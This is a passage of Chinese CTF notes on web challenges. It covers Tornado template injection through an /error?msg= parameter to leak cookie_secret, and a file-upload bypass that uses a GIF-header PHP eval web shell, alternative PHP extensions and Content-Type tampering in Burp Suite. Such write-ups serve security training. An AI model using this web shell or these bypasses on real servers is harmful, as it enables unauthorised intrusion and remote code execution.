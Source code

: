 2.通过handler.settings对象获取cookie_secret的值，即：
handler指向RequestHandler
RequestHandler.settings指向self.application.settings
所以handler.settings最终指向RequestHandler.application.settings
构造如下：

```
/error?msg={{handler.settings}} 
```

3.md5只加密二进制，所以先encode(‘utf-8’)编码为二进制,对于函数
hash.digest()
返回摘要，作为二进制数据字符串值
hash.hexdigest()
返回摘要，作为十六进制数据字符串值
进而根据题目已知信息编写脚本，获取payload

## 文件上传

#### 解法

(1) 带图片头的php一句话木马

```
GIF89a?
<script language='php'>eval($_POST['v']);</script> 
```

(2) 可解析的php后缀名：
php3，php4，php5，pht，phtml,phps
注：菜刀连接是要用POST
注意MMIE类型为jpeg，因为只允许图片上传
Content-Type: image/jpeg
绕过过程：
1.新建txt文件编写一句话木马，后缀为jpg（还有gif png等格式视情况而定）注意MMIE类型为jpeg，因为只允许图片上传
Content-Type: image/jpeg
2.Burpsuite抓包改包，修改文件后缀名，直至上传成功，如[BUUCTF upload](https://buuoj.cn/challenges#%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DUpload)中只有php后缀名为phtml才可以
